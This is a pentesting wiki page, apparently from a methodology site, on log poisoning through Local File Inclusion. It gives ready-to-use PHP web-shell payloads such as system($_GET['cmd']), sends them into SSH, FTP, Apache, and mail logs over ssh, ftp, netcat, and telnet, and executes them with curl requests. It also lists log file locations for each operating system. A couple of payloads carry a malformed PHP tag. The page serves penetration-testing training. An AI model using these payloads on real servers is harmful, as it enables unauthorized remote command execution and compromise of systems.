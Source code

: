 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# logs poisoning

> [!WARNING]
> Log files may be stored in different locations depending on the operating system/distribution.

::: details /var/log/auth.log
For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```
:::


::: details /var/log/vsftpd.log
When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```
:::


::: details /var/log/apache2/access.log
When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* About `access.log`: records all requests processed by the server.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
* Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
* FreeBSD Apache access log file location: `/var/log/httpd-access.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx/access.log`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/apache/error.log
This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

* About `error.log`: records any errors encountered in processing requests.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
* Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
* FreeBSD Apache error log file location: `/var/log/httpd-error.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/mail.log
When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```
:::